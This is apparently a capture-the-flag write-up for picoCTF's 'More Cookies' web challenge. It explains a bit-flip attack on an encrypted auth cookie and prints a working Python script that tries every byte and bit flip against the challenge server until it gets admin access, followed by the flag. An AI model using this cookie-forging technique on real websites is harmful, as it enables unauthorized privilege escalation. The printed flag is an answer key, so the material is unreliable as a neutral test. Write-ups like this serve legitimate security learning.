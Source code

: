# Web Exploitation
## More Cookies ![p](https://img.shields.io/badge/Points-90-success) ![c](https://img.shields.io/badge/Web-purple)

As the title says this challenge is about cookies, so by inspecting the given [website](http://mercury.picoctf.net:21553/) we immediately see a cookie named `auth_name` set to `cHhjTUd0S1VpUmFROG1Cell5d3VkWlI4MWxCNHg2ZnhFOFJMb09pY3NoMmpWVEpYRDR1cStsSkJDb2U3VVV3U3Jlb0NVWHpmUkZieXNZOG9kdmE4MXgxa040SjlhSkRWbGxiaEdVZ08yS0R0VjJVMEdlUElDUXYxUTRGZyt0N2U=`, which seems base64 encoded. Let's try to decode it, but we still get nothing readable.  
If we read the challenge description we can see that the cookie is said to be encrypted in some way, we can then guess that it is first encrypted and then base64 encoded.

At this point I was stuck, trying to find a suitable encrypting algorithm without success. Then an hint: _homomorphic encryption_.  
I already faced this type of challenges, so somehow we need to modify the ciphertext in order to become the admin. This leaves only the possibility of a bit-flip attack, meaning that somewhere in the plaintext we have like isAdmin=0 and we need to make it 1.

By doing that, we will make the website decrypt the cookie and consider us as admin. We don't know the position of the bit to change so we need to bruteforce it and send the request to the website that will show us the flag. This is the script I used:
```python
from base64 import b64decode
from base64 import b64encode
import requests

cookie = "cHhjTUd0S1VpUmFROG1Cell5d3VkWlI4MWxCNHg2ZnhFOFJMb09pY3NoMmpWVEpYRDR1cStsSkJDb2U3VVV3U3Jlb0NVWHpmUkZieXNZOG9kdmE4MXgxa040SjlhSkRWbGxiaEdVZ08yS0R0VjJVMEdlUElDUXYxUTRGZyt0N2U="
url = "http://mercury.picoctf.net:21553/"

def flip(index, bit):
    chars = list(decoded_cookie.decode("utf-8"))

    chars[index] = chr(ord(chars[index])^bit)

    new_cookie = ''.join(chars)
    return b64encode(new_cookie.encode("utf-8"))

decoded_cookie = b64decode(cookie)
for i in range(128):
  print(i)
  for j in range(128):
    crafted_cookie = flip(i, j)
    cookies = {'auth_name':crafted_cookie.decode("utf-8")}
    r = requests.get(url, cookies=cookies)
    if "picoCTF{" in r.text:
      print(r.text)
      break
```

Flag: **picoCTF{cO0ki3s_yum_2d20020d}**
